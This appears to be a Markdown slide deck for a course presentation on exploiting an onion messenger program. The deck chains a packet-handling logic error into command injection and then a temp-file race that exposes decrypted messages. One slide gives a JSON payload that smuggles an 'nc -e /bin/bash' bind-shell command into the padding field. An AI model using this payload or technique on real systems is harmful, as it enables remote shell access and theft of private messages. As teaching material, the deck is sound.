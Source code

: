 ### Vulnerability and Exploitation
### (with Onion Messengers)

<br>
<br>

- TA: SeongIl Wi
- DongHyeon Oh

Note:
Hello. this is presenter DongHyeon Oh.
As you know, today subject is Vulerability and Exploitation with Onion Messegners

---

## Goals

<br>

- Logic error : anybody can make a mistake |
- Command injection : victim should not be aware |
- Privacy breach : get a sensitive data |

Note:
In this activity, I determine three goals.
First of all, anybody can make a mistake sometimes in the coding.
So the logic error seems to a natural mistake.
Second, if victim was attacked by attacker, he should not be aware.
The last thing is Get a sensitive data!

---

## Scenario

- Logic error |
- Control-flow hijack(Command injection) |
- Privacy breach |


Note:
Scenario is same with Goals.
Occuring the logic error, Control flow hijacking with command injection and
Privacy breach.
T_T In a broad sense, command injection is control-flow hijack

---

## Protocol

![logic1](images/logic1.png)

Note:
This is our program's protocol.
there are id and bullian. they determine the packet status.
under the this protocol table, this is the code same with protocol.


---?code=assets/logic1.cpp&lang=c++&title=Recv thread source

@[1-5](Key alive)
@[6-10](Key die)
@[11-22](Get my message)
@[50-54](Not my message. So forwarding)

Note:
This is real source code.
this is key alive, key die, my message, not my message

---

## Logic error

![logic2](images/logic2.png)

Note:
in the not my message, work foolish.
Because this condition get all abnormal input like this one.
but exactly this program doesn't die when recv this abnormal input.
Just push in to the queue.

---

## Logic error

![logic3](images/logic3.png)

Note:
If there is a value in the queue, this send thread could work.
And send thread encrypt a padding.
So this abnormal input also ecncrypt the padding!

---

## Command injection

![cmdi1](images/cmdi1.png)

Note:
But this Encrypt method has a command injection attack vector.
So we can put together this Logic error and command injection.

---

## Command injection

```
{"id":"1","bullian":"192","recvip":"172.17.0.10",
"padding":"`nc -e /bin/bash -llvp 9999 1>/dev/null 2>/dev/null`"}
```

Note:
We can make this payload for command injection.
ID equal one, bullian is no matter~
and input attack payload in the padding.

---

## Get shell!

<img src="images/shell.png" width=800px height=500px>

Note:
Than we can get the shell!
Next step is Privacy breach

---

## Privacy breach

---?code=assets/privacy.cpp&lang=c++&title=pgpgmanaer.cpp

@[3,4](Make a file)
@[17,19](Delete a file)
@[7,8,17,18,19](There is a term)

Note:
This is Decrypt source code.
make a decrypt file and delete it.
And there is a term between make and delete.
So I can sniffing in this term.

---

## Demo

Note:
I am going to present Demo~

---

## Summary

- Logic error

- Control-flow hijack

- Privacy breach

---

# Q & A

---

## Appendix1

- Logic error

```
A bug in a program that causes it to operate incorrectly,
but not to terminate abnormally (or crash).

-> Send thread is operate incorrectly,
   but not to terminate abnormally!
```

## Appendix2

- README.md

- There are detail explanation in README.md
```
취약점 발생 원리 요약
취약점 발생 원리 상세 설명
Installation
Exploit usages
Examples
```
